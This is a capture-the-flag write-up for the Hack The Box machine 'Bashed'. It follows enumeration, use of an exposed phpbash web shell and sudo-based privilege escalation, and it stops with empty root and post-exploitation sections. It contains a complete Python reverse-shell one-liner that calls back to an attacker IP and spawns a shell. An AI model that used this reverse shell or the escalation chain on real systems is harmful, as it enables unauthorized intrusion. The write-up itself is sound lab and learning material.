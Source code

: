 # 1.0 - HACK THE BOX: BASHED

![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/026729e2-83a0-443d-a421-c2c83d2bd744)

**Vulnerability Explanation**: The web server has unintentionally exposed a php script in the /dev/ web directory that allows an unauthenticated user to remotely execute bash commands. Furthermore, the www-data user can run commands as the 'scriptmanager' user without needing a password which created a path for privilege escalation to that user and then to the 'root' user via a misconfigured cron job. 

**Vulnerability Fix**: Restrict access to the /dev/ web directory and remove the phpbash.php script. Additionally, require a password when performing sudo commands as the www-data user. 

**Severity**: Critical.

**Steps to reproduce the attack**: Enumeration was undertaken using NMAP which discovered the web server running on port 80. Web directories were then scanned using dirbuster which exposed the /dev/ directory and the .php scripts; navigating to this on a browser results in a web shell. Privilege escalation was then performed by taking advantage of the NOPASSWD value set for sudo commands on the www-data user by moving to the scriptmanager user shell. Escalation to the root user was then performed by editing a script to copy the /bin/bash binary to a new location with the setuid bit set.

## 2.0 - ENUMERATION
| **IP ADDRESS** | **OPEN PORTS** |
|----------|--------------------|
| 10.10.10.68 | TCP: 80 |

#### **2.1 - NMAP**

Port 80 was discovered using NMAP:

![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/7fce3128-5737-4b70-814e-04687c2fcc44)

#### **2.2 - nikto**

A vulnerability scan was performed using nikto which flagged a number of interesting directories including other issues which were not explored during this test. 

![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/d5e3d5a4-9258-4e91-89f0-da1272b204e1)

#### **2.3 - dirbuster** 

With the nikto scan in mind a dirbuster scan was performed to brute-force web directories which exposed the phpbash.php web shell script. 

![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/b6691ce0-57ad-46d1-8118-36b82e586362)
![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/2401dd5f-e8b1-40fc-a17d-83af0ef68d10)


## 3.0 - EXPLOITATION

#### **3.1 - Accessing the Web Shell**

Exploitation was simple, by navigating to the /dev/phpbash.php web directory we could get web shell as the www-data user. From here we have full access to the web server. 

![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/d0abe153-d486-49d6-87a5-b2e604702ba5)

## 4.0 - PRIVILEGE ESCALATION 

#### **4.1 - sudo -l**

As the www-data user when performing the sudo -l command we can see that commands can be run as the 'scriptmanager' user without the need for a password. 

![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/9564681b-0d11-40ce-8122-5749605bd2a1)
![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/34411839-1474-4a87-ab6e-11a972f1b889)

#### **4.2 - reverse shell**

Because we can run commands as scriptmanagr a reverse shell was created using python which allowed our first privilege escalation to the scriptmanager user itself. 

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.0",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Catching the reverse shell and checking the user id we can see it was sucsessful:

![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/6ee34a27-8da2-4132-ba2b-9d16912b551c)

#### 4.3 - escalation to root**

## 5.0 - POST-EXPLOITATION 
